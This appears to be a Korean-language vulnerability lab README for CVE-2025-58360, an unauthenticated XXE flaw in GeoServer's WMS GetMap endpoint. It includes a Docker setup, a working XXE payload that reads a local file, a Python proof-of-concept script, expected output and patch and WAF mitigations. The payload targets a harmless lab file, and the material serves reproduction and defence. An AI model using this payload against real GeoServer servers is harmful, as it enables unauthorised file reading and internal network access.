


# GeoServer/CVE-2025-58360

## Contributor

[@choi95411](https://github.com/choi95411)

## 취약점 요약

GeoServer는 Java 기반 오픈소스 서버이며 지리 공간 데이터를 편집하고 공유하는 기능을 제공한다.

GeoServer 2.26.0부터 2.26.1까지의 버전과 2.25.5 이하 버전에는 WMS `GetMap` 요청을 처리하는 과정에서 XXE(XML External Entity) 취약점이 존재한다.

공격자가 외부 엔티티가 포함된 SLD XML을 `/geoserver/wms` 경로로 전송하면 GeoServer의 XML 파서가 외부 엔티티를 제한하지 않고 처리한다. 이를 통해 인증 없이 GeoServer 프로세스가 읽을 수 있는 로컬 파일을 조회하거나 내부 네트워크에 요청을 전송할 수 있다.

- CVE: CVE-2025-58360
- 취약점: XML External Entity Injection
- CWE: CWE-611
- 취약 버전: GeoServer 2.26.0~2.26.1, 2.25.5 이하
- 실습 버전: GeoServer 2.26.1
- 인증 필요 여부: 없음
- 사용자 상호작용: 없음
- Risk Score: 8.2 High
- CVSS: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:L`
- Reproducibility: 95%

취약점 공격 흐름은 다음과 같다.

```text
악성 SLD XML 전송
        ↓
GeoServer XML 파서가 외부 엔티티 처리
        ↓
/tmp/lab-secret.txt 읽기
        ↓
파일 내용을 NamedLayer의 Name으로 치환
        ↓
ServiceException 응답에 파일 내용 노출
```

## 환경 구성

### 요구 사항

- Docker Engine
- Docker Compose v2

### 파일 구조

```text
CVE-2025-58360/
├── docker-compose.yml
├── Dockerfile
├── lab-secret.txt
├── payload.xml
├── poc/
│   ├── Dockerfile
│   └── poc.py
├── README.md
├── 1.png
└── 2.png
```

환경은 다음 두 개의 컨테이너로 구성된다.

- `geoserver`: 취약한 GeoServer 2.26.1 실행
- `poc`: GeoServer 준비 확인 및 XXE 요청 전송

두 컨테이너는 Docker Compose 내부 네트워크에서 통신한다. PoC는 고정 IP 대신 Compose 서비스 이름인 `geoserver`를 사용한다.

GeoServer 웹 화면은 다음 주소에서 확인할 수 있다.

```text
http://localhost:8080/geoserver/web/
```

## 취약 조건

다음 조건을 만족할 때 취약점이 발생한다.

- GeoServer 2.26.0~2.26.1 또는 2.25.5 이하 버전
- WMS 서비스 활성화
- `/geoserver/wms` 엔드포인트 접근 가능
- SLD XML 형식의 `GetMap` 요청 처리
- XML 외부 엔티티 해석이 제한되지 않음
- 대상 파일에 GeoServer 프로세스의 읽기 권한이 존재함

인증정보와 사용자 상호작용은 필요하지 않다.

본 실습에서는 GeoServer 컨테이너 내부에 다음 파일을 생성한다.

```text
/tmp/lab-secret.txt
```

파일 내용은 다음과 같다.

```text
KR_VULHUB_CVE_2025_58360_SUCCESS
```

## 재현 절차

GeoServer는 Java 기반 애플리케이션이므로 WMS 서비스가 완전히 준비되기까지 일반적으로 1~3분 정도 소요될 수 있다. 최초 실행에서는 Docker 이미지 다운로드와 빌드로 인해 시간이 더 필요할 수 있다.
PoC는 GeoServer가 준비될 때까지 자동으로 기다린다. `Waiting for GeoServer WMS...`가 출력되더라도 중단하지 않고 기다려야 한다. 실제 XXE 요청은 GeoServer 준비가 끝난 후 수 초 안에 완료된다.

### 1. Compose 설정 확인

```bash
docker compose config
```

### 2. 취약 환경 구성 및 PoC 실행

다음 명령 하나로 이미지 빌드, GeoServer 실행 및 PoC 검증을 수행한다.

```bash
docker compose up --build --quiet-build \
  --attach poc \
  --abort-on-container-exit \
  --exit-code-from poc
```

PoC는 다음 순서로 동작한다.

1. 취약한 GeoServer 2.26.1 컨테이너를 실행한다.
2. WMS 서비스가 준비될 때까지 자동으로 기다린다.
3. `/geoserver/wms`에 악성 SLD XML을 POST 방식으로 전송한다.
4. XML 외부 엔티티를 통해 `/tmp/lab-secret.txt`를 읽는다.
5. 응답에서 `KR_VULHUB_CVE_2025_58360_SUCCESS` 문자열을 확인한다.
6. 성공하면 종료 코드 `0`을 반환한다.

### 3. 서버 측 결과 확인

PoC 실행 후 다음 명령으로 GeoServer 서버 로그를 확인한다.

```bash
docker compose logs geoserver |
grep -F 'Unknown layer:' |
tail -n 1
```

### 4. 환경 정리

```bash
docker compose down -v
```

## PoC 코드

### payload.xml

다음 XML은 `/tmp/lab-secret.txt` 파일을 외부 엔티티로 선언하고 이를 `NamedLayer`의 이름으로 참조한다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE StyledLayerDescriptor [
  <!ENTITY xxe SYSTEM "file:///tmp/lab-secret.txt">
]>
<StyledLayerDescriptor version="1.0.0">
  <NamedLayer>
    <Name>&xxe;</Name>
  </NamedLayer>
</StyledLayerDescriptor>
```

외부 엔티티가 처리되면 `/tmp/lab-secret.txt`의 내용이 `<Name>` 요소에 삽입된다.

### poc/poc.py

```python
import sys
import time
import urllib.error
import urllib.request

BASE_URL = "http://geoserver:8080/geoserver"

READY_URL = (
    f"{BASE_URL}/ows"
    "?service=WMS"
    "&version=1.3.0"
    "&request=GetCapabilities"
)

TARGET_URL = (
    f"{BASE_URL}/wms"
    "?service=WMS"
    "&version=1.1.0"
    "&request=GetMap"
    "&width=100"
    "&height=100"
    "&format=image/png"
    "&bbox=-180,-90,180,90"
)

MARKER = "KR_VULHUB_CVE_2025_58360_SUCCESS"
PAYLOAD_PATH = "/app/payload.xml"


def wait_for_geoserver():
    print("[*] Waiting for GeoServer WMS...")
    deadline = time.monotonic() + 240

    while time.monotonic() < deadline:
        try:
            request = urllib.request.Request(
                READY_URL,
                headers={"User-Agent": "CVE-2025-58360-Lab"},
            )

            with urllib.request.urlopen(request, timeout=120) as response:
                response.read()
                print(f"[+] GeoServer is ready (HTTP {response.status})")
                return

        except (
            urllib.error.HTTPError,
            urllib.error.URLError,
            TimeoutError,
        ):
            pass

        except Exception:
            pass

        time.sleep(3)

    print("[-] GeoServer did not become ready within 240 seconds")
    sys.exit(1)


def send_payload():
    with open(PAYLOAD_PATH, "rb") as file:
        payload = file.read()

    request = urllib.request.Request(
        TARGET_URL,
        data=payload,
        method="POST",
        headers={
            "Content-Type": "application/xml",
            "Accept": "*/*",
            "User-Agent": "CVE-2025-58360-Lab",
        },
    )

    try:
        with urllib.request.urlopen(request, timeout=20) as response:
            status = response.status
            body = response.read()

    except urllib.error.HTTPError as error:
        status = error.code
        body = error.read()

    except Exception as error:
        print(f"[-] XXE request failed: {error}")
        sys.exit(1)

    text = body.decode("utf-8", errors="replace")

    print(f"[*] Exploit response: HTTP {status}")

    if MARKER in text:
        print(f"[SUCCESS] {MARKER}")
        print("[+] External XML entity was expanded.")
        sys.exit(0)

    print("[-] Marker was not found")
    print("----- Response preview -----")
    print(text[:3000])
    print("----------------------------")
    sys.exit(1)


if __name__ == "__main__":
    wait_for_geoserver()
    print("[*] Sending XXE payload...")
    send_payload()
```

PoC는 Python 표준 라이브러리만 사용하므로 추가 패키지 설치가 필요하지 않다.

## 실행 결과

PoC가 정상적으로 실행되면 다음 결과가 출력된다.

```text
[*] Waiting for GeoServer WMS...
[+] GeoServer is ready (HTTP 200)
[*] Sending XXE payload...
[*] Exploit response: HTTP 200
[SUCCESS] KR_VULHUB_CVE_2025_58360_SUCCESS
[+] External XML entity was expanded.
poc-1 exited with code 0
```



서버 로그에서도 파일 내용이 존재하지 않는 레이어 이름으로 처리된 것을 확인할 수 있다.

```text
Unknown layer: KR_VULHUB_CVE_2025_58360_SUCCESS
```



GeoServer가 `/tmp/lab-secret.txt`를 읽고 그 내용을 XML의 `<Name>` 요소에 삽입했다. 해당 이름의 레이어가 존재하지 않기 때문에 오류 메시지에 파일 내용이 노출된다.

WMS는 애플리케이션 오류를 HTTP 200 응답의 `ServiceException` 형태로 반환할 수 있다. 따라서 HTTP 상태 코드만 확인하는 것이 아니라 응답 본문에 실습 파일 내용이 포함되었는지를 확인해야 한다.

## 대응 방안

다음 버전 이상으로 GeoServer를 업데이트한다.

- GeoServer 2.25 계열: 2.25.6 이상
- GeoServer 2.26 계열: 2.26.3 이상
- 가능하면 현재 지원되는 최신 안정 버전 사용

추가적으로 다음 보안 설정을 적용한다.

- 외부에서 불필요한 WMS 요청 차단
- 신뢰할 수 없는 XML 및 SLD 요청 제한
- WAF에서 `DOCTYPE`, `ENTITY`, `SYSTEM` 문자열 탐지
- GeoServer 컨테이너 최소 권한 실행
- 컨테이너에서 내부 네트워크 및 클라우드 메타데이터 접근 제한
- 비밀정보를 GeoServer 프로세스가 읽을 수 있는 경로에 저장하지 않기
- 비정상적인 WMS POST 요청과 외부 연결 모니터링

단순한 WAF 차단은 우회될 수 있으므로 패치된 GeoServer 버전으로 업데이트하는 것이 가장 확실한 대응 방법이다.

## 참고 자료

- [GeoServer 공식 보안 권고](https://github.com/geoserver/geoserver/security/advisories/GHSA-fjf5-xgmq-5525)
- [NVD CVE-2025-58360](https://nvd.nist.gov/vuln/detail/CVE-2025-58360)
- [CWE-611](https://cwe.mitre.org/data/definitions/611.html)
